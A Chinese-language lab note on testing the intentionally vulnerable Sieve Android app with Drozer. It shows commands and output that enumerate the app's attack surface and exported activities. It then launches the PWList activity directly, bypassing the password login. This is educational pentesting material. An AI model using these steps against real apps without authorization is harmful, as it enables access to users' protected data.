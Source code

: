 ```yaml
---
title: Test Sieve - activities exported
tags: [Android, Drozer]

---
```


* Drozer Seive - [官網](https://labs.withsecure.com/tools/drozer#3.1), [Download](https://github.com/WithSecureLabs/drozer/releases/download/2.3.4/sieve.apk)
    > Sieve is a small password manager app created to showcase some of the common vulnerabilities found in Android applications.
    
# Test Sieve - activities exported
參考[^csdn-sieve-1][^hacktricks-diva-sieve]，在測試之前要先點進去Sieve App中設定password和email之類的基本資訊，這樣之後測試才知道哪邊其實是漏洞
1. 起手式-確認基本資訊
    ```bash!
    dz> run app.package.list -f Sieve # 確認該App的package name
    Attempting to run shell module
    com.mwr.example.sieve (Sieve)
    
    dz> run app.package.info -a com.mwr.example.sieve # 確認該App的基本資訊
    Attempting to run shell module
    Package: com.mwr.example.sieve
      Application Label: Sieve
      Process Name: com.mwr.example.sieve
      Version: 1.0
      Data Directory: /data/user/0/com.mwr.example.sieve
      APK Path: /data/app/~~_mRnxjv10ez6OXDQWBrRZw==/com.mwr.example.sieve-yL301IHv87w7debjGy21vA==/base.apk
      UID: 10285
      GID: [3003]
      Shared Libraries: [/system/framework/android.test.base.jar, /system/framework/org.apache.http.legacy.jar]
      Shared User ID: null
      Uses Permissions:
      - android.permission.READ_EXTERNAL_STORAGE
      - android.permission.WRITE_EXTERNAL_STORAGE
      - android.permission.INTERNET
      - android.permission.POST_NOTIFICATIONS
      - android.permission.ACCESS_MEDIA_LOCATION
      - android.permission.READ_MEDIA_AUDIO
      - android.permission.READ_MEDIA_VIDEO
      - android.permission.READ_MEDIA_IMAGES
      Defines Permissions:
      - com.mwr.example.sieve.READ_KEYS
      - com.mwr.example.sieve.WRITE_KEYS
      
    dz> run app.package.manifest com.mwr.example.sieve # 確認該App的manifest有沒有什麼異常或漏洞的提示
    ...
    
    dz> run app.package.attacksurface com.mwr.example.sieve # 確認該App的攻擊面有哪些
    Attempting to run shell module
    Attack Surface:
      3 activities exported
      0 broadcast receivers exported
      2 content providers exported
      2 services exported
        is debuggable
    ```
    看攻擊面的左邊就是該攻擊點有幾個
2. activities exported
    1. 列出exported activities有哪些
        ```bash
        dz> run app.activity.info -a com.mwr.example.sieve
        Attempting to run shell module
        Package: com.mwr.example.sieve
          com.mwr.example.sieve.FileSelectActivity
            Permission: null
          com.mwr.example.sieve.MainLoginActivity
            Permission: null
          com.mwr.example.sieve.PWList
            Permission: null
        ```
    2. 啟動activity
        ```bash
        dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
        ```
        此時會看到手機啟動Sieve App，並且原本應該是需要password才能access的activity，居然可以直接bypass
        ![Screenshot_20240603-163856](https://hackmd.io/_uploads/rkrr-ZsNA.png =200x)
# Reference
[^csdn-sieve-1]:[drozer之玩轉sieve](https://blog.csdn.net/samlirongsheng/article/details/104926282)
[^hacktricks-diva-sieve]:[Drozer Tutorial](https://book.hacktricks.xyz/v/cn/mobile-pentesting/android-app-pentesting/drozer-tutorial)